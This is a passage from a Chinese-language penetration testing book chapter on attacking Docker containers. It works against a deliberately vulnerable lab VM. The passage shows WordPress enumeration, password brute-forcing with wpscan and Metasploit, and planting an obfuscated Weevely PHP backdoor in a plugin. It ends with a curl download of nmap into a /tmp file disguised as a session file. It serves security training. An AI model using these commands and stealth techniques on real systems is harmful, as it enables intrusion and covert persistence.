








# 第十三章：突破容器

本章将探讨攻击应用容器。Docker 是迄今为止最受欢迎的容器管理系统，比其他系统更可能被企业部署。我们将分析错误配置、假设以及不安全的部署如何导致不仅目标应用的完全妥协，还有邻近应用的泄露。

> "Docker 容器镜像是一个轻量级、独立且可执行的软件包，包含运行应用所需的所有内容：代码、运行时、系统工具、系统库和设置。[...] 它适用于 Linux 和 Windows 应用，容器化的软件无论在何种基础设施上都会一致运行。容器将软件与环境隔离，确保其在不同环境中（例如开发和预发布环境）也能保持一致运行。"
> 
> - Docker

如果没有上下文，上面的引用可能在描述**虚拟机**（**VMs**）。毕竟，我们可以将应用打包到虚拟机中，并将其部署到任何宿主机上而不担心冲突。然而，虚拟机与容器之间存在一些根本性差异。对攻击者而言，最重要的是隔离性，或者说缺乏隔离性。

本章内容：

+   描述 Docker 和 Linux 容器

+   展示 Docker 应用与传统应用的区别

+   滥用 Docker 来攻破目标应用，最终攻破宿主机

下图展示了容器如何在不冲突的情况下运行完整的应用堆栈。与传统的虚拟机（VM）相比，一个显著的区别是内核组件。容器之所以可行，是因为能够通过**控制组**（**cgroups**）和**命名空间**来隔离进程。

容器被形容为**chroot**的增强版。Chroot 是一种 Unix 应用程序，允许管理员有效地改变运行中的应用程序“认为”的文件系统根目录。chroot 目录被设计成类似于实际的文件系统根目录，为应用程序提供它需要的文件路径，以便正确运行。应用程序被限制（chrooted）在这个任意子目录中，并将其视为根文件系统。当应用程序出现故障时，它无法破坏共享的系统文件或库，因为它只能访问原始文件的副本。



图 13.1：容器运行完整应用堆栈（来源：Docker）

当应用程序使用容器进行隔离时，它不应能看到或与同一主机上运行的其他进程进行交互。然而，它确实与同一机器上的其他容器共享内核资源。记住这一点非常重要，因为在容器中利用内核漏洞会影响到主机和相邻的应用程序。利用虚拟机内的内核漏洞通常不会危及在同一硬件上运行的其他虚拟机。要攻击其他虚拟机，你需要非常昂贵且罕见的虚拟环境主机（虚拟机管理程序）逃逸漏洞。

在下图中，你可以看到 Docker 容器和传统虚拟机管理程序（如 VMware、Hyper-V 或 VirtualBox）之间的区别：



图 13.2：Docker 容器和传统虚拟机管理程序的区别（来源：Docker）

Docker 守护进程运行在主机操作系统上并抽象化应用层，而虚拟机管理程序则抽象化硬件层。那么，既然容器并不完全隔离应用程序，为什么还要部署容器呢？简单的答案是**成本**。容器轻量、易于构建和部署，并提供足够的隔离，能够消除应用层的冲突。这解决了许多开发者今天面临的“在我的环境下可以运行”的问题。

一个应用程序在开发者的机器上运行的方式与在生产环境或完全不同的 Linux 发行版上运行的方式完全相同。你甚至可以在最新版本的 Windows 上运行在 Linux 上打包的容器。容器和 Docker 提供的便携性和灵活性是难以反驳的。虽然虚拟机也能实现相同的目标，但为了让应用程序在虚拟机上成功运行，它需要一个完整的操作系统。磁盘空间、CPU 的要求以及整体性能成本会累积起来。

如前所述，Docker 并不是唯一的容器技术，但它无疑是最受欢迎的。Docker 本质上是管理 cgroups 和命名空间的简单方法。Cgroups 是 Linux 内核的一个特性，为计算资源（如 CPU、网络和磁盘输入/输出操作）提供隔离。Docker 还提供了集中式的 Docker Hub，社区可以在上面上传自己的容器镜像，并与全球共享。

Docker 模型实现了客户端-服务器架构，实际上意味着 Docker 守护进程在主机上编排容器，而客户端通过守护进程暴露的 API 控制守护进程。

# 脆弱的 Docker 场景

尽管 Docker 和容器技术非常强大，但有时它会给应用程序生命周期带来复杂性，这通常对安全性不利。能够快速部署、测试和大规模开发应用程序无疑有其好处，但也很容易让安全漏洞从缝隙中溜走。

软件的安全性仅与其配置有关。如果一个应用程序没有打补丁或没有正确锁定，它会显著增加攻击面和被攻破的可能性。Docker 也不例外，默认配置通常不足够。我们在这里就是要利用这些配置问题和部署错误。

攻击运行在容器中的应用程序是一回事，但提升特权到主机则是锦上添花。为了说明配置不当和不安全部署的 Docker 容器的影响，我们将使用 NotSoSecure 的**脆弱的 Docker 虚拟机**。这是一台精心制作的虚拟机，展示了 Docker 部署中一些关键而常见的问题。

### 注意

虚拟机软件包可以在 NotSoSecure 的网站上下载：[`www.notsosecure.com/vulnerable-docker-vm/`](https://www.notsosecure.com/vulnerable-docker-vm/)。

一旦虚拟机启动并运行，控制台屏幕将显示其由 DHCP 分配的 IP 地址。为了清晰起见，我们将使用`vulndocker.internal`作为指向 Docker 实例的域名：



图 13.3：脆弱的 Docker 虚拟机登录提示

该应用程序运行在由 Docker 主机`vulndocker.internal`提供的容器内，端口为`8000`。在实际场景中，我们通常会看到应用程序暴露在常见端口上，例如`80`或`443`。通常，NGINX（或类似的）会在容器化应用程序与攻击者之间代理 HTTP 流量，隐藏 Docker 主机通常会开放的其他端口。攻击者必须专注于应用程序漏洞，才能获取 Docker 主机的访问权限。

# 立足点

通过与 Docker 虚拟机提供的 Web 应用程序交互，我们注意到它正在运行一个 WordPress 实例：



图 13.4：由虚拟机提供的 WordPress 应用程序

我们攻击的下一步将是运行`wpscan`工具，寻找任何简单的目标，并尽可能收集有关该实例的更多信息。

### 注意

`wpscan`工具可以在 Kali 以及几乎所有其他专注于渗透测试的发行版中找到。可以从[`github.com/wpscanteam/wpscan`](https://github.com/wpscanteam/wpscan)获取最新版本。

我们可以通过在攻击机器终端中发出`wpscan`命令来开始我们的攻击。默认情况下，将启用被动检测，寻找可用的插件，以及其他各种基本检查。我们可以使用`--url`选项，将完整的 URL（包括端口`8000`）作为值，指向我们的应用程序。

```
**root@kali:~# wpscan --url http://vulndocker.internal:8000/**
**[+] robots.txt available under: 'http://vulndocker.internal:8000/robots.txt'**
**[+] Interesting entry from robots.txt: http://vulndocker.internal:8000/wp-admin/admin-ajax.php**
**[!] The WordPress 'http://vulndocker.internal:8000/readme.html' file exists exposing a version number**
**[!] Full Path Disclosure (FPD) in 'http://vulndocker.internal:8000/wp-includes/rss-functions.php':** 
**[+] Interesting header: LINK: <http://vulndocker.internal:8000/wp-json/>; rel="https://api.w.org/"**
**[+] Interesting header: SERVER: Apache/2.4.10 (Debian)**
**[+] Interesting header: X-POWERED-BY: PHP/5.6.31**
**[+] XML-RPC Interface available under: http://vulndocker.internal:8000/xmlrpc.php**

**[+] Enumerating plugins from passive detection ...**
**[+] No plugins found**

```

这个实例的扫描结果比较干燥。**完整路径泄露**（**FPD**）漏洞如果我们不得不通过 MySQL 实例盲目地将 shell 写入磁盘（正如我们在前几章中所做的），或者如果我们找到本地文件包含漏洞时，可能会派上用场。**XML-RPC** 接口似乎是可用的，这可能稍后会有所帮助。现在，我们将这些发现做个记录。

WordPress 有着看似无穷无尽的插件，而大多数与 WordPress 相关的漏洞来自于过时和易受攻击的插件。然而，在我们的案例中，这个简单的博客并没有使用任何可见的插件。默认的 `wpscan` 插件枚举是被动的；如果插件已安装但未使用，可能无法被检测到。有一个选项可以通过使用已知插件的预定义数据库，主动测试插件的存在。

要开始对所有已知的 WordPress 插件进行主动扫描，我们可以在运行 `wpscan` 时使用 `--enumerate` 选项，并指定 `p` 值：

```
**root@kali:~# wpscan --url http://vulndocker.internal:8000/ --enumerate p**

```

这个扫描将运行几分钟，但在这个场景下，它没有返回任何有趣的结果。`wpscan` 还可以使用一些有效的信息泄露技术，在 WordPress 中揭示一些文章作者及其相应的登录用户名。枚举用户将是接下来的活动，希望我们能够攻击管理员账户，进而获得 shell 访问权限。

要开始进行用户名枚举，我们可以使用 `--enumerate` 选项，这次指定 `u` 值：

```
**root@kali:~# wpscan --url http://vulndocker.internal:8000/ --enumerate u**
**[...]**
**[+] Enumerating usernames ...**
**[+] Identified the following 1 user/s:**
 **+----+-------+-----------------+**
 **| Id | Login | Name            |**
 **+----+-------+-----------------+**
 **| 1  | bob   | bob – NotSoEasy |**
 **+----+-------+-----------------+**

```

用户枚举返回了一个值：`bob`。ID 为 `1`，我们可以安全地假设这是管理员账户。Bob 将是我们暴力破解攻击的重点，由于我们之前使用过 `10-million-password-list-` 字典成功，我们将再次尝试使用它。

`wpscan` 工具通过 `--passwords` 和 `--usernames` 参数提供了一个登录暴力破解选项。为了不逊色于其他工具，Metasploit 也提供了一个通过 XML-RPC 接口对 WordPress 登录进行暴力破解的工具。对于更大规模的攻击，使用这个模块可能更为合适，因为 Metasploit 的数据库在整理发现并快速启动后续攻击方面可能会派上用场。

就我们的目的而言，`wpscan` 的暴力破解工具就足够了，我们可以让它开始：

```
**# wpscan --url http://vulndocker.internal:8000/ --passwords ~/tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt --usernames bob**

**[...]**
**[+] Starting the password brute forcer**
 **Brute Forcing 'bob' Time: 00:01:23 <====              > (2916 / 10001) 29.15%  ETA: 00:03:22**

 **[+] [SUCCESS] Login : bob Password : Welcome1**

 **+----+-------+------+----------+**
 **| Id | Login | Name | Password |**
 **+----+-------+------+----------+**
 **|    | bob   |      | Welcome1 |**
 **+----+-------+------+----------+**

```

使用相同的参数对 Metasploit 的 `auxiliary/scanner/http/wordpress_xmlrpc_login` 模块进行测试，我们得到相同的结果。

我们可以通过在 Linux 终端中使用 `msfconsole` 命令启动 Metasploit 控制台：

```
**root@kali:~# msfconsole -q**
**msf >**

```

正如我们在前几章中所做的那样，我们可以使用 `use` 命令加载 `wordpress_xmlrpc_login` 模块：

```
**msf > use auxiliary/scanner/http/wordpress_xmlrpc_login**

```

类似于前面章节中的 MySQL 登录扫描模块，这个特定的模块可以通过指定以下选项进行配置：



图 13.5：Metasploit 模块选项

对于这个特定的暴力破解攻击，我们将针对发现的用户`bob`使用我们选择的字典。我们还将把`THREADS`增大到`10`，并确保`RHOSTS`和`RPORT`反映目标应用程序的设置。为了设置每个选项，我们将使用（你猜对了）`set`命令，如下所示：

```
**msf auxiliary(wordpress_xmlrpc_login) > set RPORT 8000**
**msf auxiliary(wordpress_xmlrpc_login) > set RHOSTS vulndocker.internal**
**msf auxiliary(wordpress_xmlrpc_login) > set PASS_FILE /root/tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt**
**msf auxiliary(wordpress_xmlrpc_login) > set USER bob**
**msf auxiliary(wordpress_xmlrpc_login) > set THREADS 10**
**msf auxiliary(wordpress_xmlrpc_login) > set STOP_ON_SUCCESS true**

```

配置好模块后，我们可以使用 Metasploit 的`run`命令启动暴力破解攻击：

```
**msf auxiliary(wordpress_xmlrpc_login) > run**

**[*] vulndocker.internal:8000   :/xmlrpc.php - Sending Hello...**
**[*] Starting XML-RPC login sweep...**
**[+] WORDPRESS_XMLRPC - Success: 'bob:Welcome1'**
**[*] Scanned 1 of 1 hosts (100% complete)**
**[*] Auxiliary module execution completed**

```

尽管执行 Metasploit 模块的步骤比仅运行`wpscan`要多，但其价值再次体现在 Metasploit 能够组织在攻击过程中收集到的数据上。如果这个应用是更大规模攻防的一部分，而发现的凭据可以在后续攻击中使用，那么 Metasploit 数据库的价值是无可替代的。有了这些凭据，我们就可以完全访问 WordPress 应用。

Metasploit 还提供了`exploit/unix/webapp/wp_admin_shell_upload`模块，该模块将创建一个 WordPress 插件，通过`php/meterpreter/reverse_tcp`有效载荷连接回攻击者，默认使用 4444 端口。还有其他有效载荷选项，但最终结果基本相同。然而，Metasploit 模块存在一个问题：噪音。失败或中断的利用尝试会留下令人不安的证据。若有管理员经过，他们很快就能发现并发出警报。你能发现这个恶意插件吗？当然，你可以。

下图显示了已安装的 WordPress 插件，包括遗留下的 MSF 有效载荷：



图 13.6：WordPress 插件

如果我们想保持低调并避免被发现，我们可以选择更加手动的方法。由于我们完全控制了 CMS，我们可以像 Metasploit 一样创建并上传自定义插件，或者更好的是，我们可以对现有插件进行后门处理。

为了保持趣味性，我们将选择后门路径，再次利用 Weevely，因为它提供了一种安全且难以检测的 shell。我们将执行`weevely generate`命令，并检查新创建的`shell.php`文件内容，如下所示：

```
**root@kali:~# weevely generate Dock3r%Knock3r ~/tools/shell.php**
**Generated backdoor with password 'Dock3r%Knock3r' in '/root/tools/shell.php' of 1466 byte size.**
**root@kali:~# cat /root/tools/shell.php** 
**<?php**
**$D=str_replace('Gx','','creGxatGxGxe_fGxGxunctGxion');**
**[...]**
**$V=$D('',$J);$V();**
**?>**

```

对于这个场景，我们不会将 PHP shell 上传到磁盘并直接访问。相反，我们将修改一个现有文件，并将内容注入其中。我们有多个选择，但我们将选择自带的 Hello Dolly 插件，WordPress 自带此插件。WordPress 管理面板提供了**插件** > **编辑器**功能，允许修改插件的 PHP 代码。攻击者特别喜欢具备此功能的应用，因为它大大简化了操作。

我们的目标是来自 Hello Dolly 插件的`hello.php`文件。其大部分内容将被生成的`weevely shell.php`文件所替换，如下图所示：



图 13.7：替换 hello.php 文件的内容

### 注意

记住我们的 ROE。如果你修改应用程序文件，请格外小心，避免导致生产环境中长时间的宕机。始终备份，并在参与结束后尽快恢复更改，或者对应用程序的合法用户造成明显影响时恢复更改。

可能最好保持文件头部不变，以防任何管理员浏览插件时看到它。我们也可以保持文件的大部分内容不变，只要它不产生任何不必要的错误消息。PHP 警告和解析错误会干扰 Weevely，导致后门无法工作。我们已看到 `wpscan` 结果表明该应用程序没有屏蔽错误消息。为了保持隐蔽性，我们必须记住这一点。

在前面的代码块中，我们已经使用 `?>` 关闭了 `<?php` 标签，然后再粘贴 Weevely shell 的内容。一旦文件成功更新，Weevely shell 可以通过 URL `http://vulndocker.internal:8000/wp-content/plugins/hello.php` 访问：

```
**root@kali:~/tools# weevely http://vulndocker.internal:8000/wp-content/plugins/hello.php Dock3r%Knock3r**

**[+] weevely 3.2.0**

**[+] Target:    www-data@8f4bca8ef241:/var/www/html/wp-content/plugins**
**[+] Session:/root/.weevely/sessions/vulndocker.internal/hello_0.session**
**[+] Shell:    System shell**

**[+] Browse the filesystem or execute commands starts the** 
**[+] connection to the target. Type :help for more information.**

**weevely> uname -a**
**Linux 8f4bca8ef241 3.13.0-128-generic #177-Ubuntu SMP x86_64 GNU/Linux**
**www-data@8f4bca8ef241:/var/www/html/wp-content/plugins $** 

```

既然我们已获得应用服务器的 shell 访问权限，我们可以通过检查 `/proc/1/cgroup` 文件来确认这是否确实是一个容器：

```
**weevely> cat /proc/1/cgroup**
**11:name=systemd:/docker/8f4bca8ef241501721a6d88b3c1a9b7432f19b2d4b389a11bfe68b770366a669**
**10:hugetlb:/docker/8f4bca8ef241501721a6d88b3c1a9b7432f19b2d4b389a11bfe68b770366a669**
**9:perf_event:/docker/8f4bca8ef241501721a6d88b3c1a9b7432f19b2d4b389a11bfe68b770366a669**
**8:blkio:/docker/8f4bca8ef241501721a6d88b3c1a9b7432f19b2d4b389a11bfe68b770366a669**
**7:freezer:/docker/8f4bca8ef241501721a6d88b3c1a9b7432f19b2d4b389a11bfe68b770366a669**
**6:devices:/docker/8f4bca8ef241501721a6d88b3c1a9b7432f19b2d4b389a11bfe68b770366a669**
**5:memory:/docker/8f4bca8ef241501721a6d88b3c1a9b7432f19b2d4b389a11bfe68b770366a669**
**4:cpuacct:/docker/8f4bca8ef241501721a6d88b3c1a9b7432f19b2d4b389a11bfe68b770366a669**
**3:cpu:/docker/8f4bca8ef241501721a6d88b3c1a9b7432f19b2d4b389a11bfe68b770366a669**
**2:cpuset:/docker/8f4bca8ef241501721a6d88b3c1a9b7432f19b2d4b389a11bfe68b770366a669**

```

作为确认应用程序是否运行在容器中的另一种方法，我们可以查看进程列表。在典型的 Linux 环境中，**进程 ID** (**PID**) `1` 属于 `init`、`systemd` 或类似的守护进程。由于容器是最小化的环境，列出的第一个进程是负责提供应用程序访问的守护进程。在 Web 应用程序中，`apache2`、`httpd`、`nginx` 或 `nodejs` 二进制文件通常被分配为 PID `1`：

```
**weevely> ps 1**
 **PID TTY      STAT   TIME COMMAND**
 **1 ?        Ss     0:01 apache2 -DFOREGROUND**

```

# 态势感知

既然我们已获得 Docker 容器的 shell 访问权限，我们应该四处看看，看看还能找到什么。如前所述，Docker 容器并非虚拟机。它们仅包含应用程序运行所需的必要二进制文件。

由于我们可以通过 shell 访问容器，因此我们受到容器所提供环境的限制。例如，如果应用程序不依赖于`ifconfig`，那么它很可能没有与容器一起打包，因此现在我们无法使用它。

我们可以通过调用以下命令确认我们的环境有所限制：

```
**weevely> ifconfig**
**sh: 1: ifconfig: not found**
**weevely> wget**
**sh: 1: wget: not found**
**weevely> nmap**
**sh: 1: nmap: not found**

```

然而，我们确实可以使用 `curl`，它可以替代 `wget`：

```
**weevely> curl**
**curl: try 'curl --help' or 'curl --manual' for more information**

```

在最坏的情况下，我们也可以通过 Weevely 的 `:file_upload` 命令上传二进制文件。

要在容器及其网络中移动，我们确实需要访问一些二进制文件，如`nmap`和`ncat`，幸运的是，这些文件可以在一个 neatly organized 的 GitHub 仓库中找到。用户 andrew-d 维护了 [**static-binaries**](https://github.com/andrew-d/static-binaries/) 仓库：



图 13.8：我们特别关注 `binaries/linux/x86_64` 文件夹

由于容器中没有 `nmap` 可执行文件，我们可以通过 `curl` 下载它，并使用 `chmod` 使其可执行。我们将使用 `/tmp/sess_[random]` 作为文件名模板，尝试将其伪装成虚假的会话文件，以防有管理员查看系统临时文件夹：

```
**weevely > curl https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/nmap -o /tmp/sess_IWxvbCBwaHAgc2Vzc2lvbnMu**
